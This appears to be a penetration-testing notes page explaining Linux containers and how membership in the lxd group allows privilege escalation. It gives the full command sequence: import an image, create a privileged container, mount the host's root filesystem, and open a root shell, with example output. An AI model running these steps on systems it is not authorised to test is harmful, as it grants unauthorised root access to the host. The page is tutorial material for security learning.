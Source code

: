 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# LXD

## Containers

Containerisation operates at the OS level - in contrast to virtual machines, which operate at the hardware level - and thus share an OS but isolate application processes from the rest of the system.

## Linux Containers

Linux Containers (LXC) is an operating system-level virtualisation technique that allows multiple Linux systems to run in isolation of one-another on a single host by allowing them to manage their own processes but sharing the host system kernel.

### Linux Daemon

Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group.

{% code title="Command" %}
```bash
id
```
{% endcode %}

{% code title="Example Output" %}
```bash
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
{% endcode %}

There are several ways in which we can exploit `LXC`/`LXD`. We can either create our own container and transfer it to the target system or use an existing container.

Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use. The focus on security would complicate the whole initiation, make it more difficult and thus slow it down considerably. If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to import this container as an image.

{% code title="Command" %}
```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
```
{% endcode %}

{% code title="Command" %}
```bash
lxc image list
```
{% endcode %}

{% code title="Example Output" %}
```shell-session
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntutemp                          | 623c9f0bde47 | no     | Ubuntu bionic amd64 (20221024_11:49)    | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```
{% endcode %}

After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.

{% code title="Command" %}
```bash
lxc init ubuntutemp privesc -c security.privileged=true
```
{% endcode %}

We can then mount the entire host file system - using `source=/` - at the location specified using `path=/mnt/root`.

{% code title="Command" %}
```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
{% endcode %}

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

{% code title="Command" %}
```bash
lxc start privesc
```
{% endcode %}

{% code title="Command" %}
```bash
lxc exec privesc /bin/bash
```
{% endcode %}

```shell-session
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```
